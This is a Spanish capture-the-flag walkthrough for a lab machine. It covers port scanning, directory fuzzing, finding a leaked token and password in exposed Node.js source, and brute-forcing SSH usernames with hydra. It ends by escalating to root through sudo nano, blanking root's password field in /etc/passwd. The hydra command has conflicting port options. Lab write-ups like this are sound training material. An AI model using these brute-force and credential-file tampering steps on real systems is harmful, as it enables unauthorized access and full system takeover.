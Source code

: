 ## 1. Reconocimiento Inicial de Puertos con Nmap

Realizamos un escaneo con `nmap` para detectar puertos abiertos, sus versiones y el sistema operativo. Esto nos ayuda a entender qué servicios están expuestos y si hay alguna vulnerabilidad conocida asociada a sus versiones.

```bash
nmap -O -sC -sV <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `80/tcp open http Apache httpd 2.4.61`: El puerto 80 está abierto y ejecuta un servidor web Apache.
*   `3000/tcp open http Node.js Express framework`: El puerto 3000 está abierto y ejecuta una aplicación Node.js Express. Esto es interesante, ya que las aplicaciones web a menudo contienen vulnerabilidades.
*   `5000/tcp open ssh OpenSSH 9.2p1 Debian`: El puerto 5000 está abierto y ejecuta OpenSSH. Es importante notar que el puerto SSH no es el estándar (22), lo que podría indicar una configuración personalizada.

## 2. Enumeración Web y Descubrimiento de Información Sensible

La presencia de un servidor web Apache y una aplicación Node.js en el puerto 3000 sugiere que la enumeración web será crucial.

### 2.1. Inspección de la Página Web (Puerto 80)

Al visitar la página web en el puerto 80 (`http://<IP_DEL_OBJETIVO>`), encontramos un botón que no funciona. Esto es una pista para inspeccionar el código fuente de la página.

### 2.2. Análisis del Código Fuente y Archivo JavaScript

Al inspeccionar el código fuente de la página web, encontramos un enlace a un archivo JavaScript: `http://<IP_DEL_OBJETIVO>/authentication.js`. Accedemos a este archivo y encontramos una función `autenticate()` que contiene un mensaje en la consola:

```javascript
function autenticate() {
    console.log("Para opciones de depuracion, el token de /recurso/ es tokentraviesito");
}
```

Este mensaje nos indica que hay un endpoint `/recurso/` que requiere un token de autenticación, y nos proporciona el token: `tokentraviesito`.

### 2.3. Fuzzing Web (Gobuster)

Aunque ya tenemos una pista importante, realizar un fuzzing de directorios con `gobuster` es una buena práctica para descubrir otras rutas o archivos ocultos en el servidor web.

```bash
gobuster dir -u http://<IP_DEL_OBJETIVO>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

**Resultados Relevantes:**

*   `/backend` (Status: 301) [--> `http://<IP_DEL_OBJETIVO>/backend/`]: Este directorio es redirigido, lo que indica que contiene contenido.

Al explorar `http://<IP_DEL_OBJETIVO>/backend/`, encontramos una lista de archivos, incluyendo `server.js`.

## 3. Análisis del Código del Servidor (server.js)

El archivo `server.js` es el código fuente de la aplicación Node.js Express. Analizarlo nos dará una comprensión más profunda de cómo funciona la aplicación y cómo podemos explotarla.

### 3.1. Contenido de `server.js`

```javascript
const express = require(\'express\');
const app = express();

const port = 3000;

app.use(express.json());

app.post(\'/recurso/\', (req, res) => {
    const token = req.body.token;
    if (token === \'tokentraviesito\') {
        res.send(\'lapassworddebackupmaschingonadetodas\');
    } else {
        res.status(401).send(\'Unauthorized\');
    }
});

app.listen(port, \'0.0.0.0\', () => {
    console.log(`Backend listening at http://consolelog.lab:${port}`);
});
```

**Análisis del Código:**

*   La aplicación escucha en el puerto 3000.
*   Define una ruta POST `/recurso/`.
*   Verifica si el `token` enviado en el cuerpo de la solicitud (`req.body.token`) es igual a `tokentraviesito`.
*   Si el token es correcto, envía como respuesta la cadena `lapassworddebackupmaschingonadetodas`.

¡Hemos encontrado la contraseña! La contraseña es `lapassworddebackupmaschingonadetodas`.

## 4. Acceso Inicial (SSH)

Ahora que tenemos una contraseña, necesitamos un nombre de usuario para intentar acceder vía SSH (puerto 5000).

### 4.1. Fuerza Bruta SSH para Obtener el Usuario

Utilizamos `hydra` para realizar un ataque de fuerza bruta, pero esta vez, con la contraseña que ya conocemos, intentaremos adivinar el nombre de usuario. Usaremos un diccionario de nombres de usuario comunes.

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p lapassworddebackupmaschingonadetodas ssh://<IP_DEL_OBJETIVO>:5000 -s 22 -t 64
```

**Resultado Clave:**

```bash
[5000][ssh] host: 172.17.0.2   login: lovely   password: lapassworddebackupmaschingonadetodas
```

Esto nos proporciona el nombre de usuario: `lovely`.

### 4.2. Conexión SSH

Con las credenciales obtenidas (`lovely:lapassworddebackupmaschingonadetodas`), nos conectamos al servidor SSH.

```bash
ssh -p 5000 lovely@<IP_DEL_OBJETIVO>
# Contraseña: lapassworddebackupmaschingonadetodas
```

## 5. Escalada de Privilegios

Una vez que hemos obtenido acceso SSH como el usuario `lovely`, el objetivo es escalar privilegios a `root`.

### 5.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario `lovely` con `sudo` sin necesidad de contraseña. Esto se hace con el comando `sudo -l`.

```bash
sudo -l
```

**Resultados Clave:**

*   `(ALL) NOPASSWD: /usr/bin/nano`

Esto significa que el usuario `lovely` puede ejecutar el editor de texto `nano` como cualquier usuario (incluido `root`) sin necesidad de introducir su contraseña.

### 5.2. Manipulación de `/etc/passwd` para Obtener Root

El archivo `/etc/passwd` contiene información sobre los usuarios del sistema. La segunda columna de cada entrada (separada por dos puntos `:`) suele contener una `x` si la contraseña está almacenada en `/etc/shadow`. Si eliminamos la `x` para el usuario `root`, podemos iniciar sesión como `root` sin contraseña.

1.  **Editar `/etc/passwd` con `nano` como `root`:**

    ```bash
sudo -u root /usr/bin/nano /etc/passwd
    ```

    Dentro de `nano`, busca la línea que comienza con `root:` y elimina la `x` después del primer dos puntos. La línea debería cambiar de `root:x:0:0:root:/root:/bin/bash` a `root::0:0:root:/root:/bin/bash`.

2.  **Guardar y Salir:** Guarda los cambios (Ctrl+O, Enter) y sal de `nano` (Ctrl+X).

3.  **Cambiar a `root`:** Ahora, puedes usar el comando `su root` (o simplemente `su`) y no te pedirá contraseña.

    ```bash
su root
    ```

El comando `whoami` confirmará que hemos escalado exitosamente a `root`.

```bash
whoami
# root
```

